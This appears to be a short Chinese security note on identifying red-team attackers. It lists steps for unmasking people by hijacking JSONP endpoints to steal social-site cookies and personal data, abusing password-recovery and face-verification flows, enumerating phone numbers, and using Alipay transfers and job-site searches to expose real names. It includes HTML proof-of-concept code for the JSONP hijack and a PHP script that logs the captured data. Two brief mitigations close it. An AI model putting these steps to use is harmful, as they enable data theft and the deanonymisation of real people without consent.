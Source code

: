 ### Ref
- [记一次某大型活动溯源红队身份](https://mp.weixin.qq.com/s/5W5ipFC2YJUFwJjDecI8mw)
- [某期间用到的溯源技巧](https://mp.weixin.qq.com/s/Hhp8_mzOasgsd10v6EbkZQ)

### Procedure
- jsonp跨域劫持获取数据（类似CSRF）劫持到浏览器中社交账号的Cookie（如百度、爱奇艺、微博等），进而获取uid、邮箱号、手机号、登录名或真实姓名
- 已有邮箱通过网站的找回密码功能拿到手机号其中几位131xxxx2222
- 已知淘宝账号（任意手机号、邮箱、用户名，其一即可），手机淘宝app找回密码处，验证方式选择拍摄脸部，验证流程中获取对方的名字（部分）。
- 在知道地区的情况下，利用归属地数据库（https://github.com/zengzhan/qqzeng-ip）缩小范围，利用枚举缩小范围后的手机号反查邮箱，获取手机号<->邮箱匹配信息
- 已有手机号，支付宝转账，获取真实姓名（部分）
- 已有手机号，利用猎聘、脉脉、boss直聘，搜索手机号的功能，获取职场交友信息


### Code

#### 测试前端
```html

<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
<title>apppppppp</title>

<script src="http://xxx.com/api/jsonp.php? callback=jsonp1&other=xxx "></script> <!--调用存在jsonp劫持的api-->
<script>function test(obj){ <!--定义函数，接收jsonp劫持的api返回的数据-->
alert(JSON.stringify(obj));<!--弹窗jsonp返回的数据，并在弹窗内部使用JSON.stringify将avaScript值转为json字符串-->
}
test(jsonp1)<!--调用函数-->
</script>

</head>
</html>
```


#### 后端data.php接收代码
```php
<?php 
$data = $_GET['data'];//接收data数据
var_dump($data);
$fp = fopen('data.txt','a');//向data.txt中写入data数据
$fpp = fwrite($fp,$data."\r\n");
?>
```


### mitigations
- 可以关闭信息查询功能的一定要关闭，如支付宝、脉脉、猎聘等;
- 尽量避免多个网站使用同一手机号，邮箱，密码等信息。

